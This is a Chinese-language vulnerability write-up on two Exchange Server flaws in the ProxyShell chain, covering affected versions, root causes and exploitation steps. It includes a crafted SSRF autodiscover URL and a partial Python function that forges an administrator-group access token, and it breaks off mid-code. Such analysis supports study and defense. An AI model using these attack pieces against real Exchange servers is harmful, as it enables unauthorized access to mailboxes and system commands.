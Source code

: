 ### CVE-2021-34473

#### 影响范围

- Exchange Server 2013 &lt; Apr21SU
- Exchange Server 2016 &lt; Apr21SU &lt; CU21
- Exchange Server 2019 &lt; Apr21SU &lt; CU10 #### 漏洞原理
    
    在`HttpProxy\EwsAutodiscoverProxyRequestHandler.cs`的·`GetClientUrlForProxy`函数中剔除`absoluteUri`中的`this.explicitLogonAddress`，而`this.explicitLogonAddress`的取值来自（GET|POST|Cookie|Server）请求中`Email`的值，但是需要满足`RequestPathParser.IsAutodiscoverV2PreviewRequest()`的返回值为true，这个则是检查路径中是否存在`/autodiscove.json`
    
    #### 利用过程

1. 构造URL `https://192.168.159.131/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com`

[![v6dZS1.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-b9df9b98c1a691bbc05cef1a1b584e314267c6e6.png)](https://imgse.com/i/v6dZS1)

2. 利用exchange的autodiscover服务可以用来查找高权限用户的配置文件，首先需要获取legacyDn属性，再利用这个属性+末尾添加不可见字符可以获得目标用户的sid。获得了用户的sid后就可以使用目标用户的权限来访问ews的api从而实现恶意操作。这一步和proxyLogon中是一样的。 ### CVE-2021-34523
    
    #### 影响范围

- Exchange Server 2013 &lt; Apr21SU
- Exchange Server 2016 &lt; Apr21SU &lt; CU21
- Exchange Server 2019 &lt; Apr21SU &lt; CU10
    
    #### 漏洞原理
    
    Exchange Powershell Remoting是一个基于WSMan协议的一个服务，可以执行一些特定的powershell命令，实现的功能有发邮件、读邮件、更新配置文件等，使用前提是使用者具有邮箱。所以，如果利用前面的ssrf来访问powershell接口是不会成功的，因为system是没有邮箱 的。接下来，就需要先解决身份认证问题。因为在`ShouldCopyHeaderToServerRequest`方法中会过滤一些自定义请求头，其中就包括校验身份的`X-CommonAccessToken`。  
    在`Microsoft.Exchange.Configuration.RemotePowershellBackendCmdletProxyModule.dll`中，有个用户可控的输入点`X-Rps-CAT`。当`X-CommonAccessToken`请求头为空时，会从`X-Rps-CAT`中读取数据，这个数据经过处理后会赋给`X-CommonAccessToken`
    
    #### 利用过程
    
    利用以下python代码可以生成token
    
    ```python
    def gen_token(uname, sid):
    version = 0
    ttype = 'Windows'
    compressed = 0
    auth_type = 'Kerberos'
    raw_token = b''
    gsid = 'S-1-5-32-544'
    
    version_data = b'V' + (1).to_bytes(1, 'little') + (version).to_bytes(1, 'little')
    type_data = b'T' + (len(ttype)).to_bytes(1, 'little') + ttype.encode()
    compress_data = b'C' + (compressed).to_bytes(1, 'little')
    auth_data = b'A' + (len(auth_type)).to_bytes(1, 'little') + auth_type.encode()
    login_data = b'L' + (len(uname)).to_bytes(1, 'little') + uname.encode()
    user_data = b'U' + (len(sid)).to_bytes(1, 'little') + sid.encode()
    group_data = b'G' + pack('<II', 1, 7) + (len(gsid)).to_bytes(1, 'little') + gsid.encode()
    ext_data = b'E' + pack('>I', 0) 
    